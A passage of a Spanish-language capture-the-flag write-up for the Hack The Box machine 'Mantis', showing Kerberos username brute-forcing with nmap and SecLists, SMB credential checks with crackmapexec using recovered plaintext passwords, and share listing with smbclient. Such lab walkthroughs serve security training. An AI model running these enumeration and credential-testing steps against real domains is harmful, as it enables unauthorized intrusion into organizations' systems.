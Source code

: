 Tampoco podemos ver la información relacionada al dominio. 

### Fuerza bruta (forma de obtener usuarios del dominio)

A este punto vemos que no tenemos forma de hacerlo; pero NO, vamos a tratar de acceder un tipo de ataque de fuerza bruta para obtener usuarios del dominio, para ello necesitamos de [SecList](https://github.com/danielmiessler/SecLists); lo descargamos en nuestra máquina y haciendo uso del script `krb5-user-enum` en `nmap` y del archivo `names.txt` de *SecList*, procedemos a ejecutar el siguiente comando:

```bash
❯ nmap -p88 --script=krb5-enum-users --script-args=krb5-enum-users.realm='htb.local',userdb=/opt/SecLists-master/Usernames/Names/names.txt 10.10.10.52 -oN kerberosUserEnum
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-19 20:40 CDT
Nmap scan report for 10.10.10.52
Host is up (0.14s latency).

PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|_    james@htb.local

Nmap done: 1 IP address (1 host up) scanned in 242.63 seconds
```

Tenemos un usuario potencial del dominio: **james** que de acuerdo con la base de datos, es el mismo y tenemos la contraseña. 

A partir de aquí, tenemos un juego de credenciales a probar; así que primero vamos a validarlas con `crackmapexec`:

```bash
❯ crackmapexec smb 10.10.10.52 -u 'admin' -p 'm$$ql_S@_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [-] htb.local\admin:m$$ql_S@_P@ssW0rd! STATUS_LOGON_FAILURE 
❯ crackmapexec smb 10.10.10.52 -u 'james' -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd!
```

Vemos un **[+]** para el usuario **james**. Asi que vamos a tratar de listar los recursos del servicio SMB con dichas credenciales:

```bash
❯ smbclient -L 10.10.10.52 -U 'james%J@m3s_P@ssW0rd!'

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
